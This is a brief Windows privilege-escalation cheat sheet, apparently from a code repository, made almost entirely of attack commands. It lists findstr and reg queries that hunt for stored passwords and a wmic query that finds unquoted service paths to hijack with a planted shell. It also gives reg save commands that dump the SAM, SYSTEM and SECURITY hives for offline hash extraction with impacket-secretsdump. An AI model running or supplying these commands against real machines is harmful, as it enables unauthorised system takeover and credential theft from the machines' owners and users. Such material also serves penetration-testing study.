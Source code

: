 Need to escalate privileges without fancy tools?
====
-----
1) open CMD and type
-----

```
findstr /si password *.txt
findstr /si password *.xml
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /spin "password" *.*
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```


-----
2) Didn't work? Still need privilege escalation?
-----

```
1) wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
2) Unquoted services that contain spaces = SYSTEM.

i.e. If binary is c:\Program Files\blah.exe. Place shell in c:\program.exe
```

-----
3) Steal SAM and cached credentials without fancy tools.
-----

```
1) reg save hklm\sam c:\SAM
reg save hklm\system c:\SYSTEM
reg save hklm\security c:\SECURITY

2) Copy to Linux host.

3) impacket-secretsdump -sam /root/SAM -security /root/SECURITY -system /root/SYSTEM LOCAL
```


